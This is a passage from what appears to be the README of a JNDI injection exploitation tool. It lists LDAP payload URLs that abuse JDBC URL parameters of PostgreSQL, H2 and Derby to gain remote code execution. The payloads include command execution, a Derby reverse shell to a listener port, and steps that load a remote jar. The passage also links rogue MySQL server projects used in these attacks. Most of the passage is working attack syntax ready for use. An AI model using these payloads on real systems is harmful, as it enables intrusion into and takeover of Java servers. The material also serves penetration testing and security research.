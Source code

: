 The above two methods require a malicious MySQL server to be used

[https://github.com/4ra1n/mysql-fake-server](https://github.com/4ra1n/mysql-fake-server)

[https://github.com/rmb122/rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)

[https://github.com/fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

#### PostgreSQL

Instantiate ClassPathXmlApplicationContext via the socketFactory and socketFactoryArg parameters of the PostgreSQL JDBC URL to achieve RCE

```bash
ldap://127.0.0.1:1389/Factory/PostgreSQL/Command/open -a Calculator
````

#### H2

Execute SQL statements via the INIT parameter of the H2 JDBC URL

Support three methods: CREATE ALIAS + Java/Groovy, CREATE TRIGGER + JavaScript

```bash
ldap://127.0.0.1:1389/Factory/H2/Java/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/Groovy/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JavaScript/open -a Calculator
```

#### Derby

**Derby SQL RCE**

Support executing commands and native reverse shell

```bash
# 1. load remote jar and create procedures (will automatically create the database)
ldap://127.0.0.1:1389/Factory/Derby/Install/<database>

# 2. execute command/native reverse shell
ldap://127.0.0.1:1389/Factory/Derby/Command/<database>/open -a Calculator
ldap://127.0.0.1:1389/Factory/Derby/ReverseShell/<database>/ReverseShell/127.0.0.1/4444

# 3. drop the database to release memory
ldap://127.0.0.1:1389/Factory/Derby/Drop/<database>
```

Please note that the connectionInitSql parameter of HikariCP does not support executing multiple SQL statements at once, so the **Install** process above needs to be written separately

```bash
# 1. load remote jar (will automatically create the database)
ldap://127.0.0.1:1389/HikariCP/Derby/InstallJar/<database>

# 2. add the jar to the classpath
ldap://127.0.0.1:1389/HikariCP/Derby/AddClassPath/<database>

# 3. create a procedure to execute commands
ldap://127.0.0.1:1389/HikariCP/Derby/CreateCmdProc/<database>

# 4. create a procedure to execute native reverse shell
ldap://127.0.0.1:1389/HikariCP/Derby/CreateRevProc/<database>

# subsequent JNDI URL is the same as above
```
